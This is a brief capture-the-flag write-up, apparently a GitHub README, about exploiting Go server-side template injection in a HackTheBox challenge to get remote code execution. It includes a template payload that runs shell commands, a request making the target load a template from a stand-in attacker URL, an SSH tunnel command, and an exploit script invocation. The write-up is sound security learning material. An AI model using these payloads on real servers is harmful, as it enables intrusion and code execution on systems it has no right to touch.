 # GO SSTI > RCE 

## Website 

<img src= "renderquest.PNG">

## Description

So, the functionality of the application seems to load and render templates either locally or remotely, depending on the ?use_remote={true/false} parameter. This lead me to want to check for SSTI vulnerability. After reviewing the source code provided by HackTheBox, we know it is using the Go templating language. I was able to set up a test.go template on my server with the contents {{.FetchServerInfo "cd /;ls -la"}}. Once the server loaded and executed my template code, I recieved the contents of the / directory, revealing code execution Just for context this is a CTF. What type of vulnerabilities were displayed here?.

## Set Up

1. Burpsuite Repeater/collaborator(Testing): GET requests to /render?use_remote=true&page=https://ATTACKER_URL/test.go.
2. Apache2 server hosting test.go).
3. Setup file with SSTI payload:
   ```go
    {{.FetchServerInfo "cd /;ls -la"}}
5. Tunnel using `ssh -R 80:localhost:80 localhost.run -i /home/$user/.ssh/id_rsa`.

## Exploit

This Python script automates the exploitation of a server-side template injectiony in the web application. It sends a GET request to a specified vulnerable URL, loading and executing our attacker-controlled template on the target server, resulting in remote code execution. 
   ```python
   python exploit.py http://target-server.com http://attacker-server.com/attacker-template.txt
```
## More Information

[SSTI in GO](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/README.md)
